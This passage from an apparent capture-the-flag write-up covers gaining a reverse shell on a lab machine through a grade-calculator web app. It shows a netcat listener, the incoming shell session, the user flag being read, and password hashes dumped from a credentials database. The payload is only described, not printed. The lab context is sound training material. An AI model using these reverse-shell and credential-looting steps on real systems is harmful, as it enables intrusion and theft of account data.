

Website

Start Listener
The next step involves listening for incoming connections using nc -lvnp 7373,
where nc is the Netcat utility, a versatile networking tool. The flags used here (-l
listen mode, -v verbose, -n numeric-only IP addresses, -p specifies the port) set
up a listener on port 7373, anticipating a reverse shell from the target.
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 7373
listening on [any] 7373 ...
connect to [10.10.14.213] from (UNKNOWN) [10.129.216.68] 42582
Generate Payload
The use of hURL to encode and decode payloads showcases the manipulation of
data to exploit web application vulnerabilities. The payload crafted for the
Weighted Grade Calculator application is designed to execute a reverse shell
command, taking advantage of any potential server-side code execution vulnerabilities.
User Flag and Hash
Boom! There is our Reverse Shell Connection. We can now optain the User
Flag and the hash from Susan.
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 7373
listening on [any] 7373 ...
connect to [10.10.14.213] from (UNKNOWN) [10.129.216.68] 42582
bash: cannot set terminal process group (992): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ ls
ls
main.rb
public
views
susan@perfection:~/ruby_app$ cd /home
cd /home
susan@perfection:/home$ ls
ls
susan
susan@perfection:/home$ cd susan
cd susan
susan@perfection:~$ ls
ls
Migration
ruby_app
user.txt
susan@perfection:~$ cat user.txt
cat user.txt
2034XXXXXXXXXXXXXXXXXXXXXXX96ab
susan@perfection:~$ cd Migration
cd Migration
susan@perfection:~/Migration$ ls
ls
pupilpath_credentials.db
susan@perfection:~/Migration$ strings pupilpath_credentials.db
strings pupilpath_credentials.db
SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
Stephen Locke154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
Susan Miller< HASH>